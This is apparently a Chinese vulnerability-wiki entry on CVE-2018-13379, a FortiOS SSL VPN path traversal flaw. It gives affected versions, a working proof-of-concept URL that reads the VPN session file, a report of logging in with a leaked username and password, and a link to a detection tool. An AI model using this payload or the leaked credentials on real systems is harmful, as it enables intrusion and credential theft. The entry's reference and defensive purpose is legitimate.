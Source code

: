（CVE-2018-13379）Fortinet FortiOS 路径遍历漏洞
===============================================

一、漏洞简介
------------

Fortinet FortiOS路径遍历漏洞（CNNVD-201905-1026、CVE-2018-13379）漏洞源于该系统未能正确地过滤资源或文件路径中的特殊元素，导致攻击者可以利用该漏洞访问受限目录以外的位置。Fortinet
FortiOS 5.6.3版本至5.6.7版本、6.0.0版本至6.0.4版本中的SSL VPN
受此漏洞影响。

二、漏洞影响
------------

Fortinet FortiOS 5.6.3版本至5.6.7版本、

Fortinet FortiOS 6.0.0版本至6.0.4版本

中的SSL VPN 受此漏洞影响。

三、复现过程
------------

POC：`http://www.0-sec.org:4443/remote/fgt_lang?lang=/../../../..//////////dev/cmdb/sslvpn_websession`

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-13379)FortinetFortiOS路径遍历漏洞/media/rId24.png)

利用泄露的账户herschel/vvpn123成功登陆。

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-13379)FortinetFortiOS路径遍历漏洞/media/rId25.png)

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-13379)FortinetFortiOS路径遍历漏洞/media/rId26.png)

### 检测工具

> https://github.com/ianxtianxt/CVE-2018-13379

参考链接
--------

> https://blog.csdn.net/limb0/article/details/102890683
